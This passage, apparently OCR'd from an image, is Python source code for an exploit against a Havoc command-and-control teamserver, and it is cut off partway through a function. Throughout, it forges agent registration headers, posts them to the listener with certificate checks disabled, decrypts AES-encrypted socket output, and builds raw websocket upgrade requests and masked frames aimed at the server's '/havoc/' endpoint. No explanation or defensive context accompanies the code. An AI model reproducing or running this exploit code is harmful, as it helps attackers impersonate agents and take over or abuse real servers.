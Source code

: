 
def read_socket(socket_id):
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""

    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]


def create_websocket_request(host, port):
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request


def build_websocket_frame(payload):
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)
    payload_length = len(payload_bytes)
    if payload_length <= 125:
        frame.append(0x80 | payload_length)
    elif payload_length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(payload_length.to_bytes(2, byteorder="big"))
    else:
        frame.append(0x80 | 127)
        frame.extend(payload_length.to_bytes(8, byteorder="big"))

    masking_key = os.urandom(4)
    frame.extend(masking_key)
    masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
    frame.extend(masked_payload)
